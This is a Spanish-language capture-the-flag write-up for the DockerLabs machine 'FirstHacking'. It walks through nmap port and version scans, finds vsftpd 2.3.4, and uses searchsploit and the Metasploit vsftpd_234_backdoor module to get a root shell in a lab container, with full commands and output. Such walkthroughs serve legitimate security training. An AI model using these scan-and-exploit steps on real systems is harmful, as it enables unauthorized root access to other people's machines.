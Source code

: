 #MAQUINA #DOCKERLABS #MUY_FACIL 
#FTP_RCE
#METASPLOIT #MSFCONSOLE
<hr>

# RECONOCIMIENTO

Vamos a resolver **FirstHacking** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 11:55 CET
Initiating ARP Ping Scan at 11:55
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:55, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:55
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:55, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-23 11:55:50 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **21(FTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p21 172.17.0.2                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 11:56 CET
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
# EXPLOTACION

Al revisar el ftp y su versión , vemos que la versión tiene un exploitable en searchsploit que nos permite hacer un RCE, es decir, ejecutar comandos remotamente.

   ```bash

searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                           | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                              | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```

En vez de descargarlos, vamos a **metasploit**. Hay un módulo, que dándole una IP y un puerto de la victima y otra IP y otro puerto para que te de una shell, te otorga una sh.

   ```bash

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST    172.17.0.1       no        The local client address
   CPORT    443              no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:443 -> 172.17.0.2:6200) at 2024-11-23 12:16:28 +0100

whoami
root

```

**YA ESTAMOS COMO ROOT.**